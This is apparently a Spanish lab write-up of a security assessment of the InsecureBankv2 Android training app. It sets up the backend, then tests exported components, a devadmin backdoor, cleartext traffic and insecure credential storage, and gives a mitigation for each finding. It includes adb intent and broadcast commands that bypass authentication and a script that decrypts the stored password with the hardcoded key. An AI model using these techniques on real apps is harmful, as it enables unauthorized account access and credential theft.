- El servidor ya está entrando en `app.py`. Pero ahora el bloqueo es que falta una dependencia: `cheroot`. Eso no venía en el documento `requirements.txt`, así que hay que añadirla al `venv`.


**Instalamos la version correcta de `cheroot`:**
```
└─$ python -m pip install 'cheroot==6.5.8' 'more-itertools==5.0.0'
DEPRECATION: Python 2.7 reached the end of its life on January 1st, 2020. Please upgrade your Python as Python 2.7 is no longer maintained. pip 21.0 will drop support for Python 2.7 in January 2021. More details about Python 2 support in pip can be found at https://pip.pypa.io/en/latest/development/release-process/#python-2-support pip 21.0 will remove support for this functionality.
Collecting cheroot==6.5.8
  Downloading cheroot-6.5.8-py2.py3-none-any.whl (76 kB)
     |████████████████████████████████| 76 kB 2.8 MB/s 
Collecting more-itertools==5.0.0
  Downloading more_itertools-5.0.0-py2-none-any.whl (52 kB)
     |████████████████████████████████| 52 kB 1.9 MB/s 
Collecting backports.functools-lru-cache
  Downloading backports.functools_lru_cache-1.6.6-py2.py3-none-any.whl (5.9 kB)
Collecting six>=1.11.0
  Using cached six-1.17.0-py2.py3-none-any.whl (11 kB)
Installing collected packages: backports.functools-lru-cache, six, more-itertools, cheroot
Successfully installed backports.functools-lru-cache-1.6.6 cheroot-6.5.8 more-itertools-5.0.0 six-1.17.0
``` 


**Volvemos a arrancar el servidor:**
```
└─$ python app.py
The server is hosted on port: 8888
```
donde:
- No cerramos esta terminal para que el servidor se mantenga activo.


**Probamos el backend desde otra terminal en el host Kali:**
```
└─$ curl -i http://127.0.0.1:8888/
HTTP/1.1 404 NOT FOUND
Content-Type: text/html
Content-Length: 232
Date: Fri, 08 May 2026 10:58:12 GMT
Server: localhost

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>404 Not Found</title>
<h1>Not Found</h1>
<p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>

```
donde:
- Obtenemos un `404 NOT FOUND` en `/`, que signigica que el servidor sí está levantado, pero `app.py` no tiene una ruta definida para la raíz `/`.


**Probamos rutas reales del backend:** Probamos `/login`:
```
└─$ curl -i -X POST http://127.0.0.1:8888/login \
  -d 'username=dinesh&password=Dinesh@123$'
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 52
Date: Fri, 08 May 2026 11:00:36 GMT
Server: localhost

{"message": "Correct Credentials", "user": "dinesh"}                                                                                                          
``` 
donde:
- Ya hemos conseguido que el backend funcione y vemos que las credenciales son válidas.


Resumiendo: El backend escucha por defecto en el puerto `8888`. El propio repositorio indica que el servidor es Python2 y que se arranca con python app.py.


**Instalamos la APK:**
```
└─$ cd ~/Descargas/Android-InsecureBankv2
                                                                                                                                                      

└─$ adb devices                          
List of devices attached
127.0.0.1:6555	device

                                                                                                                                                      
└─$ adb install InsecureBankv2.apk       
Performing Streamed Install
Success

```


**Accedemos en la app:** Abrimos `InsecureBankv2` en el dispositivo con los siguientes credenciales de prueba:
``` 
dinesh / Dinesh@123$
jack   / Jack@123$
```


**Comprobamos que el servidor autenticó correctamente:**


**Configuramos la app para apuntar al backend:**  Tenemos que poner estos valores:
```
Android Studio Emulator:
Server IP: 10.0.2.2
Server Port: 8888

```


<br>
<br>
<br>

**<mark>Cuando pulsamos el botón de Submit, se produce un error, la app se cierra y vuelve al login:</mark>**


**Analizamos con logcat porqué se sale al inicio y no entra en la app:**
```
└─$ adb logcat -c
                                                                                                                                                      

└─$ adb logcat | grep -iE "insecurebank|DoLogin|PostLogin|AndroidRuntime|FATAL|ActivityTaskManager|Background"
05-08 07:19:19.708   616  1147 I ActivityManager: START u0 {cmp=com.android.insecurebankv2/.DoLogin (has extras)} from uid 10067 on display 0
05-08 07:19:19.723  1876  1992 W System.err: 	at com.android.insecurebankv2.DoLogin$RequestTask.postData(DoLogin.java:134)
05-08 07:19:19.723  1876  1992 W System.err: 	at com.android.insecurebankv2.DoLogin$RequestTask.doInBackground(DoLogin.java:95)
05-08 07:19:19.723  1876  1992 W System.err: 	at com.android.insecurebankv2.DoLogin$RequestTask.doInBackground(DoLogin.java:90)
```
donde:
- Se confirma que el servidor responde bien, pero la app lanza una excepción dentro de `DoLogin.postData()` y por eso nunca llega a abrir `PostLogin`.


**Buscamos el tipo de excepción que se genera:** Limpiamos los logs de `logcat`, pulsamos en el diposotivo android el botón de `Login` y después ejecutamos el siguiente comando:
```
└─$ adb logcat -c                                             
                                                                                                                                                      

└─$ adb logcat -d -v time | grep -B 8 -A 12 "DoLogin.java:134"
05-08 07:28:18.795 W/System.err( 1876): org.apache.http.conn.HttpHostConnectException: Connection to http://127.0.0.1:1337 refused
05-08 07:28:18.795 W/System.err( 1876): 	at org.apache.http.impl.conn.DefaultClientConnectionOperator.openConnection(DefaultClientConnectionOperator.java:193)
....
....
```
donde:
- Observamos `Connection to http://127.0.0.1:1337 refused`.
- **<mark>La app Android no está conectando a el servidor en `8888`. Está intentando conectar a: `127.0.0.1:1337`.</mark>**


## **6.2 El puerto 1337**
Durante la depuración del `login` observamos en `logcat` el siguiente error:
```
org.apache.http.conn.HttpHostConnectException:
Connection to http://127.0.0.1:1337 refused
```

Esto indica que la app estaba intentando conectarse a: `http://127.0.0.1:1337`.

En el análisis estático vimos que `DoLogin` lee la IP y el puerto desde `SharedPreferences`, y `FilePrefActivity` es quien guarda esos valores.


El fichero de preferencias por defecto de la app es: `SharedPreferences`:
```
/data/data/com.android.insecurebankv2/shared_prefs/com.android.insecurebankv2_preferences.xml
```

Lo comprobamos con `adb`. Desde una terminal de comandos, ejecutamos:
```
└─$ adb -s 127.0.0.1:6555 shell run-as com.android.insecurebankv2 \
  cat shared_prefs/com.android.insecurebankv2_preferences.xml
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
    <string name="serverport">1337</string>
    <string name="serverip">127.0.0.1</string>
</map>
```
donde:
- Comprobamos que la app tiene configurada que se conecte a través de:
  - `serverip   = 127.0.0.1`.
  - `serverport = 1337`.
- El problema es que, dentro de Genymotion, `127.0.0.1` apunta al propio dispositivo Android virtual, no al host Kali. Sin embargo, el backend estaba corriendo en Kali en el puerto `8888`.


## **6.3 Solución con una redirección inversa de puertos con ADB**
Para redirigir las conexiones del emulador hacia el backend de Kali, usamos `adb reverse`:
```                                                                                                                                                   
└─$ adb -s 127.0.0.1:6555 reverse --remove-all
                                                                                                                                                      

└─$ adb -s 127.0.0.1:6555 reverse tcp:1337 tcp:8888
                                                                                                                                                      

└─$ adb -s 127.0.0.1:6555 reverse --list
0.0.0.015021 tcp:1337 tcp:8888

                                                                                                                                                      

└─$ adb -s 127.0.0.1:6555 shell am start -a android.intent.action.VIEW -d http://127.0.0.1:1337/
Starting: Intent { act=android.intent.action.VIEW dat=http://127.0.0.1:1337/... }
 
```
donde:
- Limpiamos las redirecciones inversas que pudieran existir para hacer una solución limpia.
- Establecemos la redirección inversa de puertos.
- Listamos las redirecciones inversas de puertos existentes para comprobar que funciona.
- Lanzamos la `Activity VIEW` para comprobar la redirección. El navegador muestra `Not Found`, pero es un error esperado, porque la ruta `/` no existe en el backend. Lo importante es que Genymotion ya llega al servidor.
- <mark>Se abre en el dispositivo una web, lo que significa que Genymotion ahora sí está llegando al backend por: `http://127.0.0.1:1337/`.</mark>
- <mark>ADB lo está redirigiendo correctamente a: `http://127.0.0.1:8888/`.</mark>


## **6.4 Configuración final de la app**
En `InsecureBankv2` → `Preferences`, ponemos:
```
Server IP:   127.0.0.1
Server Port: 1337
```


**<mark>El login fallaba porque la app apuntaba a `127.0.0.1:1337` dentro del emulador, pero el servidor real estaba ejecutándose en Kali en `127.0.0.1:8888`. Las credenciales eran correctas y el backend funcionaba, pero había un problema de conectividad entre el entorno Android virtual y el host. La redirección con `adb reverse` soluciona el problema. ADB hace de puente: `Genymotion 127.0.0.1:1337  →  Kali 127.0.0.1:8888`, permitiendo que las conexiones de la app hacia `127.0.0.1:1337` lleguen al backend en `127.0.0.1:8888`. Tras esto, el login desde la interfaz funciona correctamente.</mark>**


**Resumiendo:**
| Elemento         | Valor                                                              |
| ---------------- | ------------------------------------------------------------------ |
| App Android      | `127.0.0.1:1337`                                                   |
| Backend `app.py` | `127.0.0.1:8888` en Kali                                           |
| Problema         | Android buscaba el backend en su propio localhost y en otro puerto |
| Solución         | `adb reverse tcp:1337 tcp:8888`                                    |


## **6.5 Haciendo login desde la app**
**Resumen del orden seguido para poner en marcha la app:**
1. Activar el entorno virtual de Python 2.
2. Arrancar el backend `app.py` en Kali.
3. Abrir Genymotion.
4. Arrancar el dispositivo Android 7.
5. Configurar las preferencias de la app para usar `127.0.0.1:1337`.
6. Activar la redirección inversa con ADB.
7. Iniciar sesión desde la interfaz de la app con las credenciales de usuario.


## **6.6 Bypass por Activities exportadas**
**El Manifest confirma que estas Activities están exportadas:**
```
PostLogin
DoTransfer
ViewStatement
ChangePassword
```

**Vamos a probar que podemos accer a la actitivy PostLogin:**

```
└─$ adb -s 127.0.0.1:6555 shell am start \
  -n com.android.insecurebankv2/.PostLogin \
  --es uname dinesh
Starting: Intent { cmp=com.android.insecurebankv2/.PostLogin (has extras) }
       
```
  
donde:
- Confirmamos que podemos accer a la Actitivy `PostLogin` desde consola.


**Vamos a probar que podemos accer a la actitivy DoTransfer:**
```
└─$ adb -s 127.0.0.1:6555 shell am start \
  -n com.android.insecurebankv2/.DoTransfer \
  --es uname dinesh
Starting: Intent { cmp=com.android.insecurebankv2/.DoTransfer (has extras) }
```
  
donde:
- Confirmamos que podemos accer a la Actitivy `DoTransfer` desde consola.


**Vamos a probar que podemos accer a la actitivy ViewStatement:**
```
└─$ adb -s 127.0.0.1:6555 shell am start \
  -n com.android.insecurebankv2/.ViewStatement \
  --es uname dinesh

Starting: Intent { cmp=com.android.insecurebankv2/.ViewStatement (has extras) }
```
   
donde:
- Confirmamos que podemos accer a la Actitivy `ViewStatement` desde consola.


**Vamos a probar que podemos accer a la actitivy ChangePassword:**
```
└─$ adb -s 127.0.0.1:6555 shell am start \
  -n com.android.insecurebankv2/.ChangePassword \
  --es uname dinesh
Starting: Intent { cmp=com.android.insecurebankv2/.ChangePassword (has extras) }
```
   
donde:
- Conformamos que podemos accer a la Actitivy `ChangePassword` desde consola.
  

**Vulnerabilidad:** Activities exportadas indebidamente.

**Impacto:** Bypass de autenticación/autorización basado en componentes exportados.


**Mitigación:** Establecer en el Manifest `android:exported="false"` y validación de sesión/autorización en cada componente.

-- 

## **6.7 Probamos el backdoor `devadmin`**
El análisis estático mostró que el usuario `devadmin` activa el endpoint `/devlogin`.

En `DoLogin.java.jadx` se observa que, si el usuario introducido es `devadmin`, la app no usa el endpoint normal `/login`, sino `/devlogin`. Este comportamiento es inseguro porque introduce una ruta especial de autenticación asociada a un usuario de desarrollo.

**Usando adb, ejecutamos en un terminal el comando:**
```
└─$ adb -s 127.0.0.1:6555 shell am start \
  -n com.android.insecurebankv2/.DoLogin \
  --es passed_username devadmin \
  --es passed_password test
Starting: Intent { cmp=com.android.insecurebankv2/.DoLogin (has extras) }
```
  
donde:
- Comprobamos que el usuario `devadmin` activa el endpoint `/devlogin`.
- `/devlogin` es un endpoint inseguro de desarrollo.
- La contraseña enviada puede ser arbitraria, en este caso `test`.
- El backend responde como si las credenciales fueran correctas.
- Esto permite acceder a la aplicación sin conocer una contraseña real.


**Vulnerabilidad:** Backdoor de autenticación `/` funcionalidad de desarrollo expuesta. La aplicación contiene una lógica especial que, al detectar el usuario `devadmin`, redirige el flujo de login hacia `/devlogin`, permitiendo autenticación sin validación real de contraseña.

**Impacto:** Un atacante que conozca o descubra el usuario `devadmin` puede autenticarse sin credenciales válidas. Esto supone un bypass completo del mecanismo normal de autenticación y permite acceder a funcionalidades internas de la aplicación. Además, al estar implementado en el cliente, el comportamiento puede descubrirse fácilmente mediante análisis estático de la APK.

**Mitigación:** Eliminar endpoints y usuarios de desarrollo antes de distribuir la aplicación. La autenticación debe realizarse exclusivamente en el backend, sin rutas especiales accesibles desde cliente. Además, deben aplicarse controles `server-side` robustos, eliminar `/devlogin`, revisar builds para evitar funcionalidades de debug y añadir pruebas de seguridad que detecten endpoints o usuarios de desarrollo en versiones no controladas.


## **6.8 Tráfico HTTP en claro**
**El análisis estático mostró que la aplicación usa comunicaciones HTTP para distintos endpoints:**
```
http://
/login
/devlogin
/getaccounts
/dotransfer
/changepassword
```
donde:
- Esto indica que las credenciales y otros datos sensibles podrían viajar sin cifrado.


**Para confirmarlo dinámicamente, capturamos el tráfico con `tcpdump` mientras realizamos `login` desde la app:**
```
sudo tcpdump -i any -nn -A 'tcp port 8888'
```

**A continuación realizamos desde la app un login y observamos el tráfico capturado:**
```
└─$ sudo tcpdump -i any -nn -A 'tcp port 8888'
tcpdump: WARNING: any: That device doesn't support promiscuous mode
(Promiscuous mode not supported on the "any" device)
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on any, link-type LINUX_SLL2 (Linux cooked v2), snapshot length 262144 bytes
16:04:20.772349 lo    In  IP 127.0.0.1.45393 > 127.0.0.1.8888: Flags [S], seq 4110116392, win 65495, options [mss 65495,sackOK,TS val 3497590203 ecr 0,nop,wscale 10], length 0
E..<.>@.@..{.........Q"...f(.........0.........
.x.........

16:04:20.772360 lo    In  IP 127.0.0.1.8888 > 127.0.0.1.45393: Flags [S.], seq 740344880, ack 4110116393, win 65483, options [mss 65495,sackOK,TS val 3191979559 ecr 3497590203,nop,wscale 10], length 0
E..<..@.@.<........."..Q, .0..f).....0.........
.A.'.x.....

16:04:20.772369 lo    In  IP 127.0.0.1.45393 > 127.0.0.1.8888: Flags [.], ack 1, win 64, options [nop,nop,TS val 3497590203 ecr 3191979559], length 0
E..4.?@.@............Q"...f), .1...@.(.....
.x...A.'
16:04:20.773764 lo    In  IP 127.0.0.1.45393 > 127.0.0.1.8888: Flags [P.], seq 1:234, ack 1, win 64, options [nop,nop,TS val 3497590204 ecr 3191979559], length 233
E....@@.@............Q"...f), .1...@.......
.x...A.'POST /login HTTP/1.1
Content-Length: 40
Content-Type: application/x-www-form-urlencoded
Host: 127.0.0.1:1337
Connection: Keep-Alive
User-Agent: Apache-HttpClient/UNAVAILABLE (java 1.4)

username=dinesh&password=Dinesh%40123%24
16:04:20.773774 lo    In  IP 127.0.0.1.8888 > 127.0.0.1.45393: Flags [.], ack 234, win 64, options [nop,nop,TS val 3191979560 ecr 3497590204], length 0
E..4>J@.@..w........"..Q, .1..g....@.(.....
.A.(.x..
16:04:20.775334 lo    In  IP 127.0.0.1.8888 > 127.0.0.1.45393: Flags [P.], seq 1:136, ack 234, win 64, options [nop,nop,TS val 3191979562 ecr 3497590204], length 135
E...>K@.@..........."..Q, .1..g....@.......
.A.*.x..HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 52
Date: Fri, 08 May 2026 14:04:20 GMT
Server: localhost
....
....
```

**Destacamos:**
```
Content-Length: 40
Content-Type: application/x-www-form-urlencoded
Host: 127.0.0.1:1337
Connection: Keep-Alive
User-Agent: Apache-HttpClient/UNAVAILABLE (java 1.4)
```
donde:
- Vemos los credenciales en claro: `username=dinesh&password=Dinesh%40123%24`.
- La contraseña aparece codificada como URL encoding, que corresponde a: `Dinesh@123$`.
- Aunque algunos caracteres estén codificados para transporte HTTP, las credenciales no están cifradas. Cualquier intermediario con capacidad de capturar tráfico podría recuperar el usuario y la contraseña.


**Vulnerabilidad:** Comunicación HTTP sin cifrado.

**Impacto:** Exposición de credenciales y datos financieros ante ataques de tipo `Man-in-the-Middle`. El mismo problema puede afectar a otros endpoints como `/dotransfer`, `/getaccounts`, `/changepassword` y `/devlogin`, exponiendo cuentas, importes, usuarios, contraseñas o nuevas contraseñas.

**Mitigación:** Usar `HTTPS/TLS` de forma obligatoria en todos los endpoints, bloquear `cleartext traffic`, validar correctamente los certificados y evitar enviar contraseñas reutilizables en cada petición. Para una aplicación bancaria, también sería recomendable evaluar `certificate pinning` y usar tokens de sesión en lugar de reenviar credenciales.


## **6.9 Almacenamiento local de credenciales**
En el análisis estático identificamos que la aplicación guarda credenciales en `SharedPreferences`, concretamente en el fichero `mySharedPreferences.xml`:
```
<string name="EncryptedUsername">ZGluZXNo</string>
<string name="superSecurePassword">DTrW2VXjSoFdg0e61fHxJg==</string>
```


**Después de hacer `login` en la app, comprobamos el almacenamiento interno de la aplicación con `run-as`:**
```
└─$ adb -s 127.0.0.1:6555 shell run-as com.android.insecurebankv2 ls
app_textures
app_webview
cache
code_cache
databases
shared_prefs
```

**Listamos el directorio `shared_prefs`:**
```
└─$ adb -s 127.0.0.1:6555 shell run-as com.android.insecurebankv2 ls shared_prefs
WebViewChromiumPrefs.xml
com.android.insecurebankv2_preferences.xml
mySharedPreferences.xml
```

**Leemos el fichero que contiene las credenciales:**
```
└─$ adb -s 127.0.0.1:6555 shell run-as com.android.insecurebankv2 cat shared_prefs/mySharedPreferences.xml
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
    <string name="EncryptedUsername">ZGluZXNo&#13;&#10;    </string>
    <string name="superSecurePassword">DTrW2VXjSoFdg0e61fHxJg==&#10;    </string>
</map>
```
donde:
- Obtenemos una evidencia clara de almacenamiento inseguro de credenciales.
- Los caracteres: `&#13;&#10;` y `&#10;`, corresponden a saltos de línea y retornos de carro serializados en XML. Para analizar los valores, usamos el contenido limpio.
  

**Decodificación del usuario:** El valor EncryptedUsername no está cifrado, sino codificado en Base64:
```
└─$ echo 'ZGluZXNo' | base64 -d
dinesh
``` 
donde:
- Obtenemos que `EncryptedUsername = dinesh`.


**Descifrado de la contraseña:** En el análisis estático de `CryptoClass.java`:
- Identificamos que la app usa una clave hardcodeada: `This is the super secret key 123`.
- Además, usa: `AES/CBC/PKCS5Padding`, con un `IV estático` de 16 bytes a cero.


**Con esta información podemos descifrar el valor de `superSecurePassword`:**
```
python3 - << 'EOF'
from base64 import b64decode
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.primitives import padding

key = b"This is the super secret key 123"
iv = b"\x00" * 16
ciphertext = b64decode("DTrW2VXjSoFdg0e61fHxJg==")

cipher = Cipher(algorithms.AES(key), modes.CBC(iv))
decryptor = cipher.decryptor()
padded_plaintext = decryptor.update(ciphertext) + decryptor.finalize()

unpadder = padding.PKCS7(128).unpadder()
plaintext = unpadder.update(padded_plaintext) + unpadder.finalize()

print(plaintext.decode())
EOF
``` 
  


**Resumiendo:**
- Verificamos el almacenamiento inseguro de credenciales en el fichero `/data/data/com.android.insecurebankv2/shared_prefs/mySharedPreferences.xml`.
- El archivo `/data/data/com.android.insecurebankv2/shared_prefs/mySharedPreferences.xml` contiene:
  - `EncryptedUsername = ZGluZXNo`.
  - `superSecurePassword = DTrW2VXjSoFdg0e61fHxJg==`.
- El valor `EncryptedUsername` se decodifica directamente con Base64 y revela el usuario `dinesh`.
- El valor `superSecurePassword` puede descifrarse porque la app contiene una clave AES hardcodeada en `CryptoClass.java`: `This is the super secret key 123`.
- El valor `superSecurePassword` es `Dinesh@123$`.


**Vulnerabilidad:** Almacenamiento inseguro de credenciales en `SharedPreferences`, usando Base64 para el usuario y cifrado reversible con clave hardcodeada para la contraseña.

**Impacto:** Un atacante con acceso al dispositivo, `backup`, `root`, `run-as` en una build debuggable o extracción de datos locales puede recuperar el usuario y la contraseña en claro. Esto permite reutilizar credenciales contra el `backend` y acceder a funcionalidades sensibles.


**Mitigación:** No almacenar contraseñas reutilizables en el cliente. Usar tokens de sesión de vida corta, `Android Keystore` y `EncryptedSharedPreferences` para secretos necesarios. Evitar claves hardcodeadas, `IVs` estáticos y no usar Base64 como mecanismo de protección.


-------

## **6.10 ContentProvider exportado**
El análisis del `AndroidManifest.xml` mostró que la aplicación declara el siguiente `ContentProvider` como exportado:
```
<provider
    android:name="com.android.insecurebankv2.TrackUserContentProvider"
    android:exported="true"
    android:authorities="com.android.insecurebankv2.TrackUserContentProvider" />
```

Además, no se observan permisos de lectura o escritura asociados al provider, como `android:readPermission` o `android:writePermission`.

En el análisis estático de `TrackUserContentProvider.java.jadx` vimos que este provider expone operaciones sobre una base `SQLite` local, incluyendo:
```
insert()
query()
update()
delete()
```


**Por tanto, probamos dinámicamente si es posible consultar el provider desde fuera de la app usando adb:**
```
└─$ adb -s 127.0.0.1:6555 shell content query \
  --uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
Row: 0 id=10, name=devadmin
Row: 1 id=1, name=dinesh
Row: 2 id=2, name=dinesh
Row: 3 id=3, name=dinesh
Row: 4 id=4, name=dinesh
Row: 5 id=5, name=dinesh
Row: 6 id=6, name=dinesh
Row: 7 id=7, name=dinesh
Row: 8 id=8, name=dinesh
Row: 9 id=9, name=dinesh
Row: 10 id=11, name=dinesh
```

**Obtenemos:**
```
Row: 0 id=10, name=devadmin
Row: 1 id=1, name=dinesh
Row: 2 id=2, name=dinesh
Row: 3 id=3, name=dinesh
Row: 4 id=4, name=dinesh
Row: 5 id=5, name=dinesh
Row: 6 id=6, name=dinesh
Row: 7 id=7, name=dinesh
Row: 8 id=8, name=dinesh
Row: 9 id=9, name=dinesh
Row: 10 id=11, name=dinesh
Row: 11 id=12, name=dinesh
Row: 12 id=13, name=dinesh
Row:: no se encontró la orden
Row:: no se encontró la orden
Row:: no se encontró la orden
Row:: no se encontró la orden
Row:: no se encontró la orden
Row:: no se encontró la orden
Row:: no se encontró la orden
Row:: no se encontró la orden
Row:: no se encontró la orden
Row:: no se encontró la orden
Row:: no se encontró la orden
```

**Destacamos entre los resultados obtenidos:**
```
Row: 0 id=10, name=devadmin
Row: 1 id=1, name=dinesh
Row: 2 id=2, name=dinesh
```
donde:
- Observamos que el provider devuelve registros de la tabla interna `trackerusers`.
- Entre los valores recuperados aparecen usuarios como: `devadmin` y `dinesh`.

Esto confirma que el `ContentProvider` exportado permite acceder a información interna de la aplicación desde fuera de su flujo normal.

**Vulnerabilidad:** ContentProvider exportado sin controles de autorización ni permisos de lectura/escritura.

**Impacto:** Una aplicación externa, o un atacante con acceso mediante adb, puede consultar datos internos almacenados por la aplicación. Dado que el provider también implementa operaciones como `insert`, `update` y `delete`, el impacto puede incluir no solo lectura, sino también manipulación o borrado de registros internos si dichas operaciones están accesibles sin validación adicional.


**Mitigación:** Marcar el provider como no exportado si solo se usa internamente. Si el provider debe ser accesible desde otras apps, protegerlo con permisos específicos. Además, validar el origen del `caller` y aplicar controles de autorización antes de permitir operaciones sobre la base de datos.


---- 


## **6.11 Logs sensibles**

El código estático mostró `Log.d` y `System.out.println` con credenciales, teléfono y datos financieros.

En concreto, en `DoLogin.java.jadx` se identificó un log de login correcto que incluye usuario y contraseña:
```java
Log.d("Successful Login:", ", account=" + username + ":" + password);
```


**Limpiamos los logs de logcat:**
```shell
└─$ adb -s 127.0.0.1:6555 logcat -c
```

**Hacemos login en la app.**

**Usamos el comando:**
```
└─$ adb -s 127.0.0.1:6555 logcat -d | \
grep -iE "password|passwd|dinesh|Successful Login|amount|from|to|phone|changepassword"
```

**Resultado:**
```
05-10 05:16:34.513   616  1209 I ActivityManager: START u0 {cmp=com.android.insecurebankv2/.DoLogin (has extras)} from uid 10067 on display 0
05-10 05:16:34.517   321   607 W genymotion_audio: Not supplying enough data to HAL, expected position 818074 , only wrote 817920
05-10 05:16:34.533   616  1209 W InputMethodManagerService: Window already focused, ignoring focus gain of: com.android.internal.view.IInputMethodClient$Stub$Proxy@c13c216 attribute=null, token = android.os.BinderProxy@73d87b0
05-10 05:16:34.539  1640  2322 D Successful Login:: , account=dinesh:Dinesh@123$
05-10 05:16:34.540   616   759 I ActivityManager: START u0 {cmp=com.android.insecurebankv2/.PostLogin (has extras)} from uid 10067 on display 0
05-10 05:16:34.540   616   759 W ActivityManager: startActivity called from finishing ActivityRecord{5f6fabb u0 com.android.insecurebankv2/.DoLogin t37 f}; forcing Intent.FLAG_ACTIVITY_NEW_TASK for: Intent { cmp=com.android.insecurebankv2/.PostLogin (has extras) }
05-10 05:16:34.616   616   638 I ActivityManager: Displayed com.android.insecurebankv2/.PostLogin: +61ms (total +99ms)
05-10 05:16:37.712   321   608 W genymotion_audio: Not supplying enough data to HAL, expected position 1122576 , only wrote 971280
```
donde:
- Se observa una entrada de log generada por la aplicación con la etiqueta `Successful Login:`.
- El log contiene usuario y contraseña en claro: `account=dinesh:Dinesh@123$`.
- Esto confirma que la app expone credenciales en `logcat` después de un login correcto.
- También se confirma que, tras el login, la app lanza la Activity `PostLogin`.

**Vulnerabilidad:** Exposición de información sensible en logs. La aplicación registra usuario y contraseña en claro mediante `Log.d`.

**Impacto:** Un atacante con acceso a `logcat`, a un dispositivo rooteado, a una build debug, a herramientas de depuración o a un entorno de análisis puede recuperar credenciales válidas. Esto puede permitir acceso no autorizado al backend y reutilización de credenciales en otras funciones de la aplicación.

**Mitigación:** Eliminar cualquier log que contenga credenciales, tokens, datos personales o información financiera. En builds de producción, desactivar logs de depuración y aplicar redacción de información sensible. Además, revisar llamadas a `Log.*`, `System.out.println()` y `printStackTrace()` para evitar fugas de información.


## **6.12 BroadcastReceiver exportado**

**El `AndroidManifest.xml` confirma que `MyBroadCastReceiver` está exportado y escucha la acción `theBroadcast`:**
```xml
<receiver
    android:name="com.android.insecurebankv2.MyBroadCastReceiver"
    android:exported="true">
    <intent-filter>
        <action android:name="theBroadcast" />
    </intent-filter>
</receiver>
```

Esto significa que el receiver puede recibir broadcasts enviados desde fuera de la aplicación.

En el análisis estático de `MyBroadCastReceiver.java.jadx` vimos que este componente recibe los extras:
```
phonenumber
newpass
```

Además, el receiver recupera la contraseña anterior desde `SharedPreferences`, la descifra con `CryptoClass` y construye un SMS con la contraseña antigua y la nueva.


**Prueba dinámica:**
```
└─$ adb -s 127.0.0.1:6555 logcat -c


└─$ adb -s 127.0.0.1:6555 shell am broadcast \
  -a theBroadcast \
  --es phonenumber "123456789" \
  --es newpass "NuevaPass@123"

Broadcasting: Intent { act=theBroadcast (has extras) }
Broadcast completed: result=0
```
donde:
- Se envía un `broadcast` externo a la acción `theBroadcast`.
- Se pasan dos valores controlados por el atacante: `phonenumber` y `newpass`.
- El sistema acepta el `broadcast` y lo entrega al `receiver` exportado.
- El resultado `Broadcast completed: result=0` confirma que el envío del `broadcast` se completó.


**LueRevisión de logs:**
```
└─$ adb -s 127.0.0.1:6555 logcat -d | grep -iE \
"broadcast|changepassword|phonenumber|password|sms"

05-10 05:23:04.908   616  1264 E ActivityManager: Sending non-protected broadcast theBroadcast from system uid 0 pkg null
05-10 05:23:04.908   616  1264 E ActivityManager: 	at com.android.server.am.ActivityManagerService.checkBroadcastFromSystem(ActivityManagerService.java:17919)
05-10 05:23:04.908   616  1264 E ActivityManager: 	at com.android.server.am.ActivityManagerService.broadcastIntentLocked(ActivityManagerService.java:18486)
05-10 05:23:04.908   616  1264 E ActivityManager: 	at com.android.server.am.ActivityManagerService.broadcastIntent(ActivityManagerService.java:18577)
05-10 05:23:04.910  1640  1640 I System.out: For the changepassword - phonenumber: 123456789 password is: Updated Password from: Dinesh@123$ to: NuevaPass@123
...
...
```
donde:
- Android advierte que se está enviando un `broadcast` no protegido: `Sending non-protected broadcast theBroadcast`.
- El `receiver` se ejecuta y registra en logs el número de teléfono y el mensaje generado: `For the changepassword - phonenumber: 123456789 password is: Updated Password from: Dinesh@123$ to: NuevaPass@123`.
- El subsistema SMS registra el envío del mensaje hacia el número controlado: `receiver:123456789`y `txt:'Updated Password from: Dinesh@123$ to: NuevaPass@123'`.

Esto confirma que un `broadcast` externo puede activar lógica sensible dentro de la aplicación y provocar la exposición de credenciales.


**Vulnerabilidad:** `BroadcastReceiver` exportado sin protección, asociado a una acción pública (`theBroadcast`) y capaz de procesar datos sensibles recibidos mediante extras.

**Impacto:** Una aplicación externa podría enviar un broadcast con la acción `theBroadcast`, controlar el número de teléfono de destino y la nueva contraseña, y activar el flujo de `MyBroadCastReceiver`. Como el receiver descifra la contraseña anterior almacenada localmente y construye un SMS con la contraseña antigua y la nueva, se produce una fuga crítica de credenciales. Además, la información sensible queda expuesta en `logcat`.

**Mitigación:** Marcar el `receiver` como no exportado si sólo se usa internamente. Si debe ser accesible externamente, protegerlo con un permiso de nivel `signature`. No enviar contraseñas por SMS. No incluir contraseñas en extras de `Intent`. No registrar credenciales, números de teléfono ni mensajes sensibles en `logcat`. Validar la acción, el origen y el contenido del `broadcast` antes de procesarlo.


-----


## **6.13 Cambio de contraseña inseguro**

**El análisis estático mostró que `ChangePassword` envía por HTTP os siguientes parámetros::**
```
username
newpassword
```


**Además, la Activity `ChangePassword` está exportada en el `AndroidManifest.xml`:**
```xml
<activity
    android:label="@string/title_activity_change_password"
    android:name="com.android.insecurebankv2.ChangePassword"
    android:exported="true" />
```
donde:
- Se comprueba que se permite abrir directamente la pantalla de cambio de contraseña mediante adb.


**Ejecutamos tcpdump para capturar tráfico:**
```
└─$ sudo tcpdump -i any -nn -A 'tcp port 8888'

tcpdump: WARNING: any: That device doesn't support promiscuous mode
(Promiscuous mode not supported on the "any" device)
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on any, link-type LINUX_SLL2 (Linux cooked v2), snapshot length 262144 bytes
```

**Abrimos la Activity `ChangePassword` directamente con adb:**
```
adb -s 127.0.0.1:6555 shell am start \
  -n com.android.insecurebankv2/.ChangePassword \
  --es uname dinesh
```

**Desde la interfaz de la app cambiamos la contraseña del usuario `dinesh`:**  
  


**En la terminal donde está corriendo tcpdump, observamos la petición `HTTP` enviada al `endpoint /changepassword`:**  
  

**Destacamos el fragmento:**
```
POST /changepassword HTTP/1.1
Content-Length: 38
Content-Type: application/x-www-form-urlencoded
Host: 127.0.0.1:1337
Connection: Keep-Alive
User-Agent: Apache-HttpClient/UNAVAILABLE (java 1.4)

username=dinesh&newpassword=Pass123%40
```
donde:
